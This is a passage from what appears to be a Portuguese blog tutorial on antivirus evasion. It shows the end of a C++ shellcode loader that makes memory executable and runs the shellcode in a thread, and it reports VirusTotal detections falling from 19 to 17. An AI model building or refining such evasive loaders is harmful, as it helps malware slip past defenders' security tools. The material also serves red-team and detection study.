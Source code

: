```cpp

    rx = VirtualProtect(exec_mem, shellcode_size, PAGE_EXECUTE_READ, &oldProtect);

    if ( rx != 0 ) {
            thread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(thread, -1);
    }

    return 0;
}
```

Ao submeter no VirusTotal novamente, abaixamos a identificação de ameaça de **19** para **17** antivírus somente com as implementações feitas. 

![](/img/posts/Pasted%20image%2020240724102411.png)

- [https://www.virustotal.com/gui/file/008b76ba3c5f278c5e021c52d2d78b8d0feea242b711017c65a53ae0537a66af/detection](https://www.virustotal.com/gui/file/008b76ba3c5f278c5e021c52d2d78b8d0feea242b711017c65a53ae0537a66af/detection)


## *Function Call Obfuscation*
